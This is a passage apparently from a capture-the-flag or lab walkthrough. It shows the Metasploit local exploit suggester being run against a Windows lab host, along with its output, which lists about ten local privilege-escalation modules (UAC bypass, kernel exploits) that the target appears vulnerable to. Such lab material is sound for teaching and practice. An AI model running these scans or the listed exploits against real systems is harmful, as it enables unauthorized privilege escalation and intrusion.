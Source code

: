 *++This can appear to hang as it tests exploits and might take several minutes to complete++*

run post/multi/recon/local_exploit_suggester

*Output*

[*] 10.10.246.24 - Collecting local exploits for x86/windows...
[*] 10.10.246.24 - 38 exploit checks are being tried...
[+] 10.10.246.24 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] 10.10.246.24 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
